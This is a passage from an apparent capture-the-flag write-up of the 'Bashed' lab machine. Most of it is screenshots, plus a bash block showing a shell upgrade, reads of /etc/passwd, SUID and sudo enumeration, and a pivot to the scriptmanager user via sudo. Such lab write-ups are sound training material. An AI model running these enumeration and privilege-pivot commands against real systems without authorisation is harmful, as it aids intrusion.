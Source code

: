 <br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After gaining access to the box and performing a console treatment, I can now enumerate it to find a way to perform a **User pivoting** or **Escalate privileges**. The most interesting information I find is that there are two users, besides **root**, that have a **bash** shell assigned to them, plus the user I have pwned currently has the privilege to execute any command impersonating the user **scriptmanager**, so I can pivot and get a shell without entering the user's password. If I now look for files in which I have **scriptmanager** assigned as owner user, I find a folder and a **Python** script that catches my attention.

```bash
script /dev/null -c bash
# [Ctrl^z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
id
groups
cat /etc/passwd | grep 'sh$'
find \-perm -4000 2>/dev/null
crontab -l
sudo -l

sudo -u scriptmanager /bin/bash
whoami
find \-user scriptmanager 2>/dev/null
find \-user scriptmanager 2>/dev/null | grep -v proc
# ./scripts
# ./scripts/test.py
```

<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bashed_writeup/Bashed_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
